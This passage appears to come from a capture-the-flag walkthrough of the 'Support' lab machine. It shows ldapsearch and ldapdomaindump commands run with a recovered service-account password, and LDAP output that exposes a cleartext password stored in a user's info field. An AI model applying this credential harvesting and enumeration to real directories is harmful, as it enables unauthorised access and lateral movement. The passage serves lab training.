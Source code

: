 Using ldapsearch, we run:

```bash
# # ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"

ldapsearch -x -H ldap://support.htb -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=Users,DC=support,DC=htb"
```

Results are long and provided in text form. By using a tool such as ldapdomaindump we can get cool results in different formats: .grep, .html, and .json.

```bash
 ldapdomaindump -u 'support\ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' dc.support.htb
```

Then, we can run:

```bash
firefox domain_users.html
```

Results:

![screenshot](https://github.com/amandaguglieri/walkthroughs/blob/main/resources/users-ldap.png)

It looks like the support user account has the most permissions. We have a closer look to this user in the results obtained in the ldapsearch:

```
# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20221109173336.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
uSNChanged: 81981
company: support
streetAddress: Skipper Bowles Dr
name: support
objectGUID:: CqM5MfoxMEWepIBTs5an8Q==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132982099209777070
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAG9v9Y4G6g8nmcEILUQQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: support
```